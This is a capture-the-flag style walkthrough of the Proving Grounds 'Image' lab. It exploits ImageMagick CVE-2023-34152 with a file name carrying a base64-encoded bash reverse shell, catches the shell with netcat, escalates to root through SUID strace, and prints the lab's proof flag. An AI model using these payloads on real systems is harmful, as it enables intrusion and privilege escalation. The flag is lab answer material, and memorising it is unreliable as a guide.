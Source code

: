 `└─$ head nmapAutomator_192.168.231.178_all.txt -n 100`

`Running all scans on 192.168.231.178`

`Host is likely running Unknown OS!`

`---------------------Starting Port Scan-----------------------`

`PORT   STATE SERVICE`
`22/tcp open  ssh`
`80/tcp open  http`

Check out what's on port 80
If we upload a file, it shows Version: 6.9.6-4

![[Pasted image 20240217192852.png]]

If we do the usual Google with the version

![[Pasted image 20240217193737.png]]

I go through the exploits in the first result https://www.exploit-db.com/exploits/39767
None of them work though.

Start looking at the second result https://github.com/ImageMagick/ImageMagick/issues/6339
We start looking at [CVE-2016-5118](https://github.com/advisories/GHSA-6w95-mr48-gp8c "CVE-2016-5118").  
Can't get the PoCs we find for this to work but if we scroll down we in the Github page we find another CVE.
[CVE-2023-34152](https://github.com/advisories/GHSA-47q6-hqqr-mcr3 "CVE-2023-34152")

Google this and search for a PoC
![[Pasted image 20240217194232.png]]

https://github.com/overgrowncarrot1/ImageTragick_CVE-2023-34152

We get this PoC and it works!

`┌──(user㉿kalipurple)-[~/Offsec/ProvingGrounds/Image/ImageTragick_CVE-2023-34152]`
`└─$ python CVE-2023-34152.py -l 192.168.45.222 -p 4444

It makes our file
`└─$ ls -ltra`
`-rw-r--r-- 1 user user    9 Feb 17 17:49 '|en"echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjQ1LjIyMi80NDQ0IDA+JjEK'$'\n'' | base64 -d | bash".png'`

We setup our listener
`└─$ nc -nlvp 4444` 
`Ncat: Version 7.94SVN ( https://nmap.org/ncat )`
`Ncat: Listening on [::]:4444`
`Ncat: Listening on 0.0.0.0:4444`

Upload the picture and catch the reverse shell
`Ncat: Connection from 192.168.231.178:35960.`
`bash: cannot set terminal process group (1156): Inappropriate ioctl for device`
`bash: no job control in this shell`
`www-data@image:/var/www/html$ whoami`
`whoami`

Look for applications where suid permission is set (ignore the garbage ones)
`find / -perm -u=s 2>/dev/null | grep -v '^/proc\|^/run\|&/sys\|^/snap'

We find strace

GTFObins shows we can use this
![[Pasted image 20240217194633.png]]

`www-data@image:/var/www/html$ strace -o /dev/null /bin/sh -p`
`strace -o /dev/null /bin/sh -p`
`whoami`
`root`
`cat /root/proof.txt`
`90081f89927a935c9503d89b07bdc6f6`
